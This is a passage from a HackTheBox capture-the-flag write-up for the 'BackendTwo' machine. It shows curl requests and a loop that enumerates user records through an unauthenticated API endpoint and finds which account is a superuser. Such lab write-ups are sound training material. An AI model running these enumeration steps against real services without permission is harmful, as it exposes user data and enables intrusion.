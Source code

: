 As well as `/docs`, Authentication is required to access the `/api/v1/admin/` endpoint.


```console
root@kali:~/htb/Machines/BackendTwo# curl -s -D- http://backendtwo.htb/api/v1/user
HTTP/1.1 404 Not Found
date: Tue, 01 Aug 2023 05:55:06 GMT
server: uvicorn
content-length: 22
content-type: application/json

{"detail":"Not Found"}

root@kali:~/htb/Machines/BackendTwo# curl -s -D- http://backendtwo.htb/api/v1/user/1
HTTP/1.1 200 OK
date: Tue, 01 Aug 2023 05:55:15 GMT
server: uvicorn
content-length: 175
content-type: application/json

{"guid":"25d386cd-b808-4107-8d3a-4277a0443a6e","email":"admin@backendtwo.htb","profile":"UHC Admin","last_update":null,"time_created":1650987800991,"is_superuser":true,"id":1}
```

The response status of the `/api/v1/user` endpoint was 404.
Looking at the URL naming, I think this WEB API to be a RESTFul like API.
The RESTFul API has a URL pathname of `/<resource>/<id>`, so I added 1 after `/api/v1/user` and executed the request, and the resource was returned.

### UHC User Enumeration

Found `admin@backendtwo.htb` user whose user ID is 1.
I will change the user ID and request to find other users.

```console
root@kali:~/htb/Machines/BackendTwo# for i in $(seq 1 13); do curl -s http://backendtwo.htb/api/v1/user/$i; echo '\n\n'; done
{"guid":"25d386cd-b808-4107-8d3a-4277a0443a6e","email":"admin@backendtwo.htb","profile":"UHC Admin","last_update":null,"time_created":1650987800991,"is_superuser":true,"id":1}

(snip)

{"guid":"e412dc13-282f-45d8-80e3-7cabb5e73373","email":"freddie@backendtwo.htb","profile":"UHC Player","last_update":null,"time_created":1650987948365,"is_superuser":false,"id":11}

null

null
```

There are 1-11 user IDs and no user IDs above 12.
The response body is JSON with fields such as `guid`, `email`, `profile`, and `is_superuser`.

Only the user `admin@backendtwo.htb` has the value `true` for `is_superuser`, all other users have `false`.
The value of this field controls access, and there may be differences in the API that each user can execute.
